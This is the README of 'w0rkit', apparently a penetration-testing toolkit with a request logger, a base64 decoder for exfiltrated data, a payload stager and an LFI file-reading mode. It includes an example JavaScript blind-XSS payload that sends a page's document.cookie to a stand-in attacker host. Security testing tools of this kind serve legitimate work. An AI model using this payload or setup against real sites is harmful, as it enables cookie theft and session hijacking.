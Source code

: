 # w0rkit

A small toolkit containing response handling and parsing solutions that come in handy during PT/BH.

Disclaimer: Pls no evil :(

## Installation

1. `git clone ...; cd w0rkit`

2. `poetry install`

3. `poetry shell`

Done :-)

## Refactoring Branch

Since most of this tool is being scripted together on the fly, we have a dedicated branch to refactoring.
The main branch *should* contain a working version, but usage, code and some minor features might be different in the unstable refactoring branch. 

## Usage

A new way of running the tool is introduced in order to make it more extensible.
Currently under very active development of LFI mode (unstable, don't expect it to work for your purpose)
The `web` mode is stable and can be used as demonstrated below.

The new modes are `web` and `lfi`, where `web` contains the old stager, and response receiver/decoder.

### Web

Currently supports 2 modes. (`simple` and `b64d`).

#### Simple
Just logs request source, headers and parameters. GET only.

`w0rkit web simple -l [listen_address] -p [listen_port]`

So with `-l 127.0.0.1` and `-p 80`:
```
$ curl "http://localhost/?query1=foo&query2=bar&something=somethingelse"
OK
```

Result:

![Result](img/simple.png)

#### b64d
Fetches a `magic_param` from the GET query parameters, base64decodes it and removes url encoding.

`w0rkit web b64d -l [listen_address] -p [listen_port] -m [magic_param]`
`-m` is optional and will default to `?q=`

So with `-l 127.0.0.1`, `-p 80` and `-m decodeme`:

```
$ curl "http://localhost/?decodeme=JTNDaHRtbCUzRSUwQSUzQ2hlYWQlM0UlMEElM0N0aXRsZSUzRU9oJTIwd293JTJDJTIwc28lMjByZWFkYWJsZSUzQy90aXRsZSUzRSUwQSUzQy9oZWFkJTNFJTBBJTNDYm9keSUzRSUwQSUzQy9ib2R5JTNFJTBBJTNDL2h0bWwlM0U%3D%3D"
OK
```

Result:

![Result](img/b64d.png)


#### Stager
All Web-apps also have a stager route, in the first merge of the refactoring branch (v0.0.2), the stager directory is configurable with `-r`.
By default it will try to load from `/tmp/stager` which defaults to `C:\tmp\stager` on windows.
The stager can be used in a lot of different attacks. This is a safer replacement-to-be for always running `python3 -m http.server` :-)

An Example stored (hardcoded) blind XSS/CSRF attack is currently included in the stager.

**Note: Please note that the screenshots might differ from the current options, use `--help` to see what is available.**

When running the code:

```javascript
// This is just an example payload that you could serve

async function runPayload(){
    let result = await fetch(`http://back-to-our-host.local/?q=${btoa(escape(document.cookie))}`)
}

runPayload()
```
So by visiting `http://localhost/stager/example.html` while running in `b64d` mode with `-s (--stager)` enabled:

Result:

![Result](img/stager_b64d.png)


### LFI

#### Interrogate

Interactive LFI interrogation mode. Facilitates requesting and decoding files after finding a succesful exploitation.

`w0rkit lfi interrogate -i "http://vulnerable.target/index.php?filepath=" --filter-mode spf`


### Useful for
* Serve Anything, like RFI or DTD Payloads(and exfiltrate easily with `b64d` in OOB situations)
* XSS Pivoting
* Interactive LFI (~~Soon™~~ WIP!) 

Happy Hunting!

